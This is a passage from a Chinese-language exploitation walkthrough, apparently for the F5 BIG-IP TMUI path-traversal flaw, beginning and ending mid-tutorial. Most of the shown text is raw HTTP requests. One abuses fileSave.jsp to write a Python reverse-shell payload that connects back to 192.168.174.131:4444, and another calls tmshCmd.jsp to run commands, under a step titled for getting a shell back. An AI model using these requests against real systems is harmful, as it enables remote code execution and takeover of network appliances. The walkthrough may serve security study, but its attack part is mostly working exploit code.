 ![](https://mmbiz.qpic.cn/mmbiz_png/PJcQz9vmUickksDia6CZqHmTcNL0BMNfuHShdZSr4l42H4Bf21GH3NH5Lswic7Iv04XcL3256fLYic36vUvgrOQqSw/640?wx_fmt=png "")  
  
操作流程如下所示：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PJcQz9vmUickksDia6CZqHmTcNL0BMNfuHt5e6ARnWSvU9w8FKRF8ZAf5gtwutxhp2DK3N07I2fsS8hhVUMia9ibnA/640?wx_fmt=png "")  
```
GET/tmui/login.jsp/..;/tmui/locallb/workspace/fileSave.jsp?fileName=/tmp/1.txt&content=python+-c+'import+socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.174.131",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);' HTTP/1.1
Host: 192.168.174.214
Connection: close
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.106 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=3DD313DBE2953C844A648AF0EF8BCE1F


```  
  
成功写入文件：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PJcQz9vmUickksDia6CZqHmTcNL0BMNfuH0LC3Lrt21kHSezV7KJB3CJ2ZmmS1VRqRYzTWKINeUrWVXtKbYVM9wA/640?wx_fmt=png "")  
  
Step 3:反弹shell回来  
  
a、bash反弹shell  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PJcQz9vmUickksDia6CZqHmTcNL0BMNfuHedevfJicKJYxKkqZyicrJTwc9VsHa63eO6YOuplQ2MMwtpvJL390zFdg/640?wx_fmt=png "")  
```
GET/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=list+/tmp/1.txt HTTP/1.1
Host: 192.168.174.214
Connection: close
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.106 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=3DD313DBE2953C844A648AF0EF8BCE1F


```  
  
